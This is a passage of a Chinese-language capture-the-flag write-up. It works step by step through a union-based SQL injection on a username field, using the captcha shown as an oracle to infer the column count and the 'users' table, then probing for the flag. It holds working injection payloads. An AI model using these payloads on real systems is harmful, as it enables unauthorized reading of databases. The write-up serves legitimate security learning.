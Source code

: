 两次注入均得到纯数字验证码。看来，`username` 和 `riskness` 是存在的。接下来，判断 `select` 究竟选中了几列。

```plain
Simple-1' union select '1', '1' --
Simple-1' union select '1' --
```

```sql
select ?风险等级...? from ?数据表? where username = 'Simple-1'
  union select '1', '1' -- '
select ?风险等级...? from ?数据表? where username = 'Simple-1'
  union select '1' -- '
```

提示：`union` 是将两次 `select` 的结果连接起来，只有列数一样才可以连接（不要求数据类型一样）。

结果只有后者给出了纯数字验证码，前者因为出错给出了最难的验证码。这表明 `select` 操作只选择了一列。这一列只能是 `riskness`。

最后，数据表名称。猜测 `users`。

```plain
Simple-1' union select '1' from users
```

```sql
select riskness from ?数据表? where username = 'Simple-1'
  union select '1' from users -- '
```

好的，没有问题！最后验证 `users` 是否就是这张数据表。

```plain
Simple-1' and 1=0 union select riskness from users where username = 'Simple-1' --
```

```sql
select riskness from ?数据表? where username = 'Simple-1'
  union select riskness from users where username = 'Simple-1' -- '
```

也没问题。这就完全没有疑虑了。现在数据表的结构已经摸清楚了。

那么 flag 在哪呢？估计有两种可能，并适当猜测：

- `users` 表中有名为 `flag` 的用户。
- 另有 `flag` 数据表，内含一列称为 `flag`，这里包含 flag 的值。

先验证第一个。

```plain
Simple-1' and 1=0 union select '1' from users where username = 'flag' --
```

```sql
select riskness from users where username = 'Simple-1' and 1=0
  union select '1' from users where username = 'flag' -- '
```

这个失败了。下一个。

```plain
Simple-1' union select flag from flag --
```

